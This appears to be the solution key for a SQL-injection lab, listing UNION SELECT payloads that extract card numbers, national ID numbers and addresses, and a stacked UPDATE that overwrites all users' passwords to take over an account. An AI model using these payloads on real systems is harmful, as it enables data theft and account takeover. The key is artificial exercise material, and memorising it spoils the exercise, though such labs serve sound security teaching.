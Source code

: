 # Possible Solution

## Task 1

Injection target: Search field on page `/` 
Injection string: `1' and 1=2 union select 1, group_concat(table_name) from information_schema.tables where table_schema = database() -- -` 

*Alternative*

`WWOEIEJASLKDFJA' UNION ALL SELECT 'foo', TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' and 'asdf' like 'asdf
`
## Task 2

- Injection target: Search field on page `/`
- Injection string:
	- Retrieve fields from user table: `1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database() and table_name ='payments'-- -
`	- Retrieve data:
		- `1' and 1=2 union select 1,number from payments where user_id=7 -- -`
		- `1' and 1=2 union select 1,name from payments where user_id=7 -- -`
		- `1' and 1=2 union select 1,expirationDate from payments where user_id=7 -- -`
		- `1' and 1=2 union select 1,type from payments where user_id=7 -- -`
- Results:
    Number: 4716462877235423
    Type: Visa
    Validity: 10/22
    Name: Alice Hänni B.Sc.

*Alternative*

`WWOEIEJASLKDFJA' UNION ALL SELECT 'foo', type FROM payments WHERE user_id = (select id from users where username = 'hostettler.therese') UNION ALL SELECT 'foo', number FROM payments WHERE user_id = (select id from users where username = 'hostettler.therese') UNION ALL SELECT 'foo', name FROM payments WHERE user_id = (select id from users where username = 'hostettler.therese') UNION ALL SELECT 'foo', expirationDate FROM payments WHERE user_id = (select id from users where username = 'hostettler.therese') and 'asdf' like 'asdf`

## Task 3

- Visit /space/wyss.sara%5c/profile and get the needed table column names from the displayed error message (optional):
	- "dev user query (TODO: delete in produciton)”
	- "select id, name, username, email, phone, dob, iban, ahv, address, created_at from users where username = 'wyss.sara' and active = ? limit 1"
- Call the URL /space/wyss.sara'%20UNION%20SELECT%20'test',%20username,%20concat(ahv,%20'%20',%20address,%20'%20',%20dob),%20%20'test',%20'test'%20FROM%20users%20WHERE%201=1%20OR%20username='a
- Scroll to the needed data - result:
	- AHV: 756.5186.6027.29
	- Adress: Aline-Studer-Weg 10140 Walenstadt
	- Date of Birth: 2002-11-30

*Alternative*

- Injection target: Search field on page `/` 
- Inection string: `WWOEIEJASLKDFJA' UNION ALL SELECT 'foo', dob FROM users WHERE username = 'wyss.sara' UNION ALL SELECT 'foo', ahv FROM users WHERE username = 'wyss.sara' UNION ALL SELECT 'foo', address FROM users WHERE username = 'wyss.sara' and 'asdf' like 'asdf`

## Task 4

- Injection target: hidden text box of any comment box
- Injection string: `'; UPDATE users SET password='$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi'; -- -` 

Inject following query the hidden text box of any comment box, and visit the `reactions/message` page. The wrong username (Update-Query) gets executed and the password is set, then it is possible to login to the account and get the code:

*Alternative*

- Injection target: comment field
- Injection string: `'; update users set password = '$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi'; select 'foo', 'bar' from users where username like 'wyss.sara
` 
## Task 5

Emergency-Code: `fea4f1f11325040c7c65b77ab9be41bc` 
